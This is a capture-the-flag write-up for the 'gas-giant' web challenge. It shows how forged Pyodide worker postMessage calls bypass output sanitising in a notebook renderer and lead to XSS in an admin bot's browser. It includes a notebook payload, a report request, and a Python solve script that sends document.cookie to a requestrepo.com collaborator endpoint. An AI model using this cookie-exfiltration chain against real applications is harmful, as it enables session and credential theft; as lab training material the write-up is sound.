

# gas-giant

**Category:** Web

## Description
🐍🧑‍🚀🚀🪐

## Overview
This challenge is a notebook XSS in a Pyodide-backed Jupyter renderer. The `/render` page accepts a base64-encoded notebook from the `d` query parameter, but it validates uploaded code cells so they must start with `outputs: []`; that prevents the obvious attack of embedding malicious HTML directly in the notebook JSON.

The intended defense is to strip dangerous rich output types inside the Pyodide worker by replacing `display_data` and `execute_result` with plain text placeholders. However, attacker-controlled Python runs inside that same worker and can call `self.postMessage(...)` directly, forging a worker message that looks like a legitimate notebook output. On the frontend, HTML outputs are rendered with `dangerouslySetInnerHTML`, and the notebook is treated as trusted by default, so a forged `display_data` message becomes arbitrary JavaScript execution in the notebook page.

That XSS is enough to solve the challenge because the admin bot will visit any reported `http://` or `https://` URL, set a `flag` cookie for `localhost`, and click the notebook run button automatically. A malicious shared notebook can therefore execute in the admin browser and exfiltrate `document.cookie`.

## Technical details
The first important constraint is in the notebook parser. The `/render` route decodes the notebook from the `d` parameter and validates it with Zod:

```ts
const codeCellSchema = z.object({
    cell_type: z.literal('code'),
    source: z.union([z.string(), z.array(z.string())]),
    metadata: z.any(),
    execution_count: z.int().nullable(),
    outputs: z.array(z.any()).length(0)
})
```

So pre-populating a code cell with a malicious `text/html` output is not allowed. The notebook must be clean when uploaded, and the attack has to create the dangerous output at runtime.

The runtime execution path is in the Pyodide worker. `pyodideWorker.mjs` tries to make notebook output safe by rewriting rich output types before they are sent back to the React app:

```js
const publishExecutionResult = (prompt_count, data, metadata) => {
    self.postMessage({
        id,
        output_type: 'execute_result',
        execution_count: prompt_count,
        data: { 'text/plain': "<'execute_result' output disabled due to security reasons>" },
        metadata: this.formatResult(metadata),
    });
};

const displayDataCallback = (data, metadata, transient) => {
    self.postMessage({
        id,
        output_type: 'display_data',
        data: { 'text/plain': "<'display_data' output disabled due to security reasons>" },
        metadata: this.formatResult(metadata),
        transient: this.formatResult(transient),
    });
};
```

That defense fails because the attacker controls Python code running inside the same worker context. From Python, it is possible to import `self` from the JS environment and call `self.postMessage(...)` directly, bypassing the sanitizing callbacks entirely.

The frontend trusts any worker message whose `id` matches the currently running execution. `JupyterNotebook.tsx` does not authenticate the message source beyond that `id` check:

```ts
const currId = getId();
worker.addEventListener('message', function listener(e) {
    if (e.data.id !== currId) return;

    if (e.data.output_type === 'done') {
        setReady(true);
        return worker.removeEventListener('message', listener);
    }

    const { id, ...rest } = e.data;
    callback(rest as CodeCellOutput);
});

worker.postMessage({ id: currId, python: code });
```

The ID generator starts from `1`, and the bot clicks the run button once on the attacker notebook, so a notebook with a single code cell can reliably forge messages with `id: 1`.

Once such a message reaches the UI, `JupyterNotebookCodeCell.tsx` renders HTML outputs directly:

```tsx
if (props.output.output_type === 'execute_result' || props.output.output_type === 'display_data') {
    const trusted = props.trusted ?? true;
    const mimes = props.output.data;

    if (trusted && mimes['text/html']) return (
        <div
            dangerouslySetInnerHTML={{ __html: mimes['text/html'] }}
        />
    )
}
```

The subtle bug here is `props.trusted ?? true`: notebooks are considered trusted by default. `StyledNotebook` never passes `trusted={false}`, so attacker-supplied HTML is executable as soon as a forged `display_data` message lands in the output stream.

The final piece is the admin bot. The server exposes a report endpoint:

```js
app.post('/report', async (req, res) => {
    const url = req.body.url;
    if (!url.startsWith('http://') && !url.startsWith('https://'))
        return void res.status(400).send({ message: 'Invalid URL protocol.' });
    void visit(url).catch((e) => console.log('Visit failed:', e));
    res.status(200).send({ message: 'The admin is visiting your URL.' });
});
```

and `bot.js` does exactly what the attacker needs:

```js
await browser.setCookie({ name: 'flag', value: 'bctf{fake_flag}', domain: 'localhost' });
await page.goto(url);
await page.locator('button.cursor-pointer.text-right.px-1').setTimeout(20000).click();
```

So the full exploit chain is:

1. Create a notebook with one empty-output code cell.
2. Put Python in that cell that forges a `display_data` worker message with `id: 1` and attacker-controlled `text/html`.
3. Have the injected HTML exfiltrate `document.cookie` to a RequestRepo or other collaborator endpoint.
4. Generate `/render?d=...` for that notebook and submit it to `/report`.
5. The bot loads the page on `localhost`, carries the `flag` cookie, clicks Run, and executes the attacker HTML.
6. The exfiltration request leaks the flag cookie.

## Proof-of-Concept
- Step 1: Create a notebook with a single code cell and no pre-populated outputs so it passes schema validation.

```json
{
  "metadata": {},
  "nbformat": 4,
  "nbformat_minor": 4,
  "cells": [
    {
      "cell_type": "code",
      "source": "from js import self\nhtml = \"\"\nself.postMessage({\n  'id': 1,\n  'output_type': 'display_data',\n  'data': { 'text/html': html, 'text/plain': 'ok' },\n  'metadata': {}\n})",
      "metadata": {},
      "outputs": [],
      "execution_count": null
    }
  ]
}
```

The crucial idea is that the payload does not rely on Jupyter's normal display pipeline. It sends a forged worker message straight to the frontend, so the worker-side `display_data` patch never gets a chance to replace the HTML.

- Step 2: Turn that notebook into a share link.

```text
http://localhost:3000/render?d=<base64-encoded-notebook>
```

`HomePage.tsx` already shows that `/render?d=...` is the intended sharing mechanism, so the malicious notebook fits naturally into the application flow.

- Step 3: Report the share link to the admin bot.

```http
POST /report HTTP/1.1
Host: target
Content-Type: application/json

{"url":"http://localhost:3000/render?d=<base64-encoded-notebook>"}
```

The server replies with:

```json
{"message":"The admin is visiting your URL."}
```

- Step 4: Build a notebook that redirects the admin browser to a RequestRepo endpoint with `document.cookie`.

A minimal solve script for the remote instance is:

```python
import base64
import json

import requests

REMOTE = "https://gas-giant-6886ce683749ec35.b01lersc.tf"
ENDPOINT = "https://0ry4qybp.requestrepo.com/x?c="

html = f""
payload = {
    "id": 1,
    "output_type": "display_data",
    "data": {"text/html": html, "text/plain": "ok"},
    "metadata": {},
}
source = (
    "from js import self, JSON\n"
    f"payload = JSON.parse({json.dumps(json.dumps(payload))})\n"
    "self.postMessage(payload)\n"
)
notebook = {
    "metadata": {},
    "nbformat": 4,
    "nbformat_minor": 4,
    "cells": [
        {
            "cell_type": "code",
            "source": source,
            "metadata": {},
            "outputs": [],
            "execution_count": None,
        }
    ],
}
encoded = base64.b64encode(json.dumps(notebook, separators=(",", ":")).encode()).decode()
share = "http://localhost:3000/render?d=" + encoded

r = requests.post(REMOTE + "/report", json={"url": share}, timeout=20)
r.raise_for_status()
print(r.text)
print("Watch RequestRepo for a request to /x?c=...")
```

This does exactly what the manual exploit does:

1. create a notebook whose single code cell forges a `display_data` worker message,
2. make the HTML redirect the admin browser to `https://0ry4qybp.requestrepo.com/x?c=...` with `document.cookie`,
3. submit the generated `localhost` share URL to `/report`.

- Step 5: Read the exfiltrated cookie from RequestRepo.

When the admin bot executes the notebook, RequestRepo receives a request like:



```text
/x?c=flag%3Dbctf%7Bboys_go_to_jupiter_to_get_more_stupider%7D
```

Decoding the `c` parameter yields:

```text
flag=bctf{boys_go_to_jupiter_to_get_more_stupider}
```

## P/S
The provided source sets the bot cookie to `bctf{fake_flag}` as a local decoy. On the real challenge infrastructure, the same cookie injection path carried the real flag, and the exploit above leaked it unchanged.